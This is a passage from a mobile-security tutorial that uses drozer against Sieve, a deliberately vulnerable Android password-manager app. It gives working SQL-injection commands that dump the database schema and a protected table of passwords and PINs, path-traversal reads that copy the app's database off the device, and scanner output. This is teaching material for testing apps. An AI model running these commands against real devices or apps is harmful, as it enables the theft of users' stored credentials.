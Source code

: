 Android returns a very verbose error message, showing the entire query that it tried to execute. We can fully exploit this vulnerability to list all tables in the database:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* 
FROM SQLITE_MASTER WHERE type='table';--" 
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... | 
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```
or to query otherwise protected tables:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

#### File System-backed Content Providers

A content provider can provide access to the underlying file system. This allows apps to share files, where the Android sandbox would otherwise prevent it. Since we can reasonably assume that FileBackupProvider is a file system-backed content provider and that the path component represents the location of the file we want to open, we can easily guess the content URIs for this and use a drozer module to read the files:

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts 
127.0.0.1            localhost
```

Reading the /etc/hosts file is not a big problem (it is world readable anyway) but having discovered the path to the application’s data directory in Section 3.2 we can go after more sensitive information:

```
dz> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db
Written 24576 bytes 
```

This has copied the application’s database from the device to the local machine, where it can be browsed with sqlite to extract not only the user’s encrypted passwords, but also their master password.

#### Content Provider Vulnerabilities

We have seen that content providers can be vulnerable to both SQL injection and directory traversal. drozer offers modules to automatically test for simple cases of these vulnerabilities:

```
dz> run scanner.provider.injection -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
dz> run scanner.provider.traversal -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```